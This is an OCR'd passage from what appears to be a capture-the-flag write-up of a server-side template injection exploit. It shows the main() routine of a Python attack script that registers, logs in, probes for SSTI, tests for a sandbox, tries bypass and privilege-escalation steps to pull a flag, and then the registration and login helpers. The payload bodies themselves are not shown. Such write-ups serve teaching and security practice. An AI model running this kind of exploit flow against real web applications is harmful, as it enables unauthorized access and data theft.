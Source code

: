 ```python
    else:
        print(f"[-] Failed to get flag from endpoint: {response.text}")
        return None

def main():
    print("[*] Starting exploit for SSTI vulnerability")
    register()
    login()
    test_ssti()
    
    index = find_subclass_index()
    sandboxed = test_sandbox()
    
    if not sandboxed:
        flag = extract_flag_directly(index)
        if flag:
            print("[*] Exploit complete!")
            return
    else:
        print("[*] Server appears sandboxed, trying bypass methods")
        flag = extract_flag_sandbox()
        if flag:
            print("[*] Exploit complete!")
            return
        
        print("[*] Direct extraction failed, attempting privilege escalation")
        if escalate_privileges_sandbox():
            flag = get_flag_endpoint()
            if flag:
                print("[*] Exploit complete!")
                return
    
    print("[-] Exploit failed. Server is likely sandboxed or payload incorrect.")

if __name__ == "__main__":
    try:
        main()
    except Exception as e:
        print(f"[-] Script error: {str(e)}")
```
### 1. Registration and Authentication
First, we need to create an account and log in:

```python
def register():
    url = f"{TARGET}/register"
    payload = {"username": USERNAME, "password": PASSWORD}
    response = session.post(url, json=payload)

def login():
    url = f"{TARGET}/login"
    payload = {"username": USERNAME, "password": PASSWORD}
    response = session.post(url, json=payload)
```
